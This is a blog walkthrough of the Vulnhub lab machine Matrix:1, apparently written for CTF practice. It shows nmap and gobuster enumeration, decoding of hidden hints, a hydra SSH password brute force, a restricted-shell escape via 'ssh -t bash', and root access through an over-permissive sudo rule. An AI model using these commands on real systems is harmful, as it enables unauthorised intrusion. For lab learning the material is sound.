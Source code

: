 ```yaml
---
layout: post
title:  "Matrix:1 Vulnhub Walkthrough"
date:   2020-09-24 15:00:00 +0530
categories: VulnHub CTF
---
```

Matrix:1 is a machine in which I used Enumeration to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sC -sV 192.168.198.139
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 00:30 EDT
Nmap scan report for 192.168.198.139
Host is up (0.000096s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title: Welcome in Matrix
MAC Address: 00:0C:29:43:C6:92 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds
```
Interesting two http services!
## Web Enumeration
Then I enumerated directories and files using gobuster on both services but there is no useful information

```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.139 -x php,html,json,py,matrix
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.139
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     matrix,php,html,json,py
[+] Timeout:        10s
===============================================================
2020/09/25 00:50:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/assets (Status: 301)
/80.py (Status: 200)
[ERROR] 2020/09/25 00:51:41 [!] Get http://192.168.198.139/page22.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
[ERROR] 2020/09/25 00:59:13 [!] Get http://192.168.198.139/35921.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                      
[ERROR] 2020/09/25 01:00:48 [!] Get http://192.168.198.139/helpweb.html: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                   
[ERROR] 2020/09/25 01:02:08 [!] Get http://192.168.198.139/151871_1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                    
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/lang_ko.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/28672.json: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/inalambrico.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                              
[ERROR] 2020/09/25 01:07:53 [!] Get http://192.168.198.139/gisabm.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
===============================================================
2020/09/25 01:14:21 Finished                                                                                      
===============================================================

```
Nothing really important here.
## Inspecting Element
So, I started digging in the http services in port 80 and 3117. I found a base64 encoded text while inspecting element on port 31337.

![Username](/assets/machines/vulnhub/matrix/1.png)

## Cracking

After decoding

![Username](/assets/machines/vulnhub/matrix/2.png)

so I visted http://192.168.198.139:1337/Cypher.matrix , a filed was downloaded which contained this strange ciphertext

![Username](/assets/machines/vulnhub/matrix/3.png)

I used online crypto Identifier and the text was identified as Brainfuck Endcoding

![Username](/assets/machines/vulnhub/matrix/4.png)

So I used another online tool to decode the text

![Username](/assets/machines/vulnhub/matrix/5.png)

The text contains our password with missing two letters so I used an online combination
maker and prefix adder to make my wordlist
![Username](/assets/machines/vulnhub/matrix/6.png)

Then I used hydra to bruteforce the ssh password

```
hydra -f -l guest -P Downloads/output.txt ssh://192.168.198.139
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 01:13:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1296 login tries (l:1/p:1296), ~81 tries per task
[DATA] attacking ssh://192.168.198.139:22/

[STATUS] 178.00 tries/min, 178 tries in 00:01h, 1120 to do in 00:07h, 16 active
[STATUS] 166.00 tries/min, 498 tries in 00:03h, 800 to do in 00:05h, 16 active
[STATUS] 153.29 tries/min, 1073 tries in 00:07h, 225 to do in 00:02h, 16 active
[22][ssh] host: 192.168.198.139   login: guest   password: k1ll0r7n
[STATUS] attack finished for 192.168.198.139 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 01:21:21
```

## Privilege Escalation
When I sshed to the user guest, it gave me a restricted shell so I bypassed the restriction by using this command

```
root@kali:/home/kali# ssh guest@192.168.198.139 -t bash

```

I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run all commands

```
guest@porteus:/tmp$ sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp

```

So

```
guest@porteus:/tmp$ sudo su
Password: 
root@porteus:/tmp# cat /root/flag.txt 
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,'                                            
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION    

```
and voila here is the root privilege!





